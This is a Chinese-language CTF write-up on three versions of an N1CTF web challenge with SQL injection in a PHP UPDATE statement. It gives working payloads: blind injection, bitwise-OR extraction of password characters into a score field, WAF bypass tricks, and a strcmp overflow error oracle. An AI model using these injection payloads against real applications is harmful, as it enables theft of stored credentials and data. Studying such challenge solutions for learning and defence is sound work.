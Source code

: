 ```yaml
---
title: LOVE Q
date: 2018-05-04 00:00:00
categories:
- CTF/Web
tags: N1CTF BCTF SQL注入 UPDATE注入
--- 
```


N1CTF的一道注入题的三个版本，注入点相同：

![image](https://xuanxuanblingbling.github.io/assets/pic/n1sql.png)

## 77777

第一版，首先分析这个格式化字符串：

```
$q=sprintf("UPDATE users SET points=%d%s",$_POST['flag'],waf($_POST['hi']));
```

- flag这个位置最终通过%d格式化成数字，无法注入
- hi这个位置虽然要经过waf函数，但最后是通过%s格式化成字符串的，也许可以注入

这里我们发现每次提交给的flag值最终会在profile中的分数中显示出来，语句执行所以这里有两种思路：

- 把要查询的数据转化成数字计算到points中
- 通过能否成功更新points的值盲注

> 盲注：

```
flag=0&hi=and ord(mid((select password where username = '77777'),1,1)) > 1
```

> 位或

```
flag=0&hi=|conv(hex(substr((select password),1,1)),16,10)
```

> flag

```
n1ctf{helloctfer23333}
```

## 77777 2

一样存在回显，根据提示字段名称变成了pw，仍然是上面两总思路，但是发现盲注的函数彻底被waf了，于是只能尝试第二种方法。

```
flag=0&hi=|conv(hex(substr((select pw ),1,1)),16,10)
```

- 这里有很多的坑，首先是pw后面如果连上括号被waf
- 另外是`2 3 4 5 9`这几个数字被waf了，所以可以用没过滤的数字算出来，1+1+1+1这种
- 或者用length函数计算得出，length('11')==2
- 一位一位的查看回显分值即可

```
hahah777a7aha77777aaaa
```

## LOVE Q

第三版，将分数回显去掉了，hi参数过滤了一堆东西，最终发现位或运算并没过滤，数字2，9没有被过滤，利用mysql如下特性，并且strcmp比较可以返回(0,1,-1)

```mysql
mysql> select (0|1),(0|0),(0|-1);
+-------+-------+----------------------+
| (0|1) | (0|0) | (0|-1)               |
+-------+-------+----------------------+
|     1 |     0 | 18446744073709551615 |
+-------+-------+----------------------+
1 row in set (0.00 sec)
```

出现溢出错误，则返回中存在sorry字符串，构造payload，sorry前面的那个就是正确的值

```
flag=0&hi=|strcmp(substr(pw,9-2-2-2-2,9-2-2-2-2),'a')
```

最终通过各种9和2的组合替换substr的第二个参数，strcmp的第二个参数由a-z爆破，最终的得到flag:

```
flag{hhhhccchhddddahhhhhh}
```

但这里strcmp貌似是不区分大小的，所以这里走运全是小写

## 参考

[一种新的MySQL下Update、Insert注入方法](https://www.anquanke.com/post/id/85487)


